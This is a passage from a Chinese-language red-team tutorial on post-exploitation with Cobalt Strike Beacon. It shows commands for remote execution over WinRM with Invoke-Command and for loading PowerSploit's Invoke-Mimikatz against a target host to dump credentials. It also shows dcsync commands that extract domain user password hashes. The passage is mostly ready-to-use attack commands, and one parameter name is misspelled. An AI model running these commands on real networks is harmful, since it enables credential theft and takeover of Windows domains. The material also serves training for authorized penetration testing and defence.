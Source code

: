 
使用 Beacon 的`File Browser`上的地址栏查看文件 ![](img/415198dc869c7c3df570bfaffd651e68.png)

*   使用 WinRM 来执行命令

    ```
    # 使用 powershell
    powershell Invoke-Command -ComputerName TARGET -ScriptBlock {要执行的命令}
    # 通过 WinRM 使用 PowerSploit 来运行 Mimikatz
    powershell-import /path/Invoke-Mimikatz.ps1
    powershell Invoke-Mimikatz -ComouterName TARGET
    # Mimikatz 有 32 位和 64 位的，建议不要使用 32 位的，另外 Mimikatz 需要将$PEBytes32 重新修改为空 
    ```

    PowerSploit 可参考[https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

*   使用`dcsync`来提取用户哈希，可以在`Credentials`面板上看到提取到的 hash

    ```
    dcsync [domain]  [DOMAIN\user]
    dcsync [domain] 
    ```
